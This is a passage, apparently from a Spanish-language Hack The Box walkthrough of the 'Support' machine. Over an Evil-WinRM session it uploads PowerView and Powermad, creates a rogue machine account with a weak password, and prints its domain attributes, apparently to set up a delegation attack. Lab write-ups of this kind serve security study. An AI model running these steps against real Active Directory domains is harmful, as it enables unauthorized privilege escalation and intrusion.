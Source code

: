 ```bash

*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents>
```

```bash
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/miguel/Hackthebox/Support/content/Powermad.ps1

Info: Uploading /home/miguel/Hackthebox/Support/content/Powermad.ps1 to C:\Users\support\Documents\Powermad.ps1

Data: 180768 bytes of 180768 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
```

- Vamos a comenzar creando un **Computer object**.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount Nuevo -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = Nuevo$
Verbose: [+] Distinguished Name = CN=Nuevo,CN=Computers,DC=support,DC=htb
[+] Machine account Nuevo added
```

- Comprobamos que exista.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer Nuevo


pwdlastset             : 3/29/2024 2:39:18 PM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=Nuevo,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : Nuevo
objectsid              : S-1-5-21-1677581083-3380853377-188903654-6101
samaccountname         : Nuevo$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 3/29/2024 9:39:18 PM
instancetype           : 4
usncreated             : 90263
objectguid             : df9abf14-106b-4628-af15-0893a1ecf055
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/Nuevo, HOST/Nuevo, RestrictedKrbHost/Nuevo.support.htb, HOST/Nuevo.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
badpwdcount            : 0
cn                     : Nuevo
useraccountcontrol     : WORKSTATION_TRUST_ACCOUNT
whencreated            : 3/29/2024 9:39:18 PM
primarygroupid         : 515
iscriticalsystemobject : False
```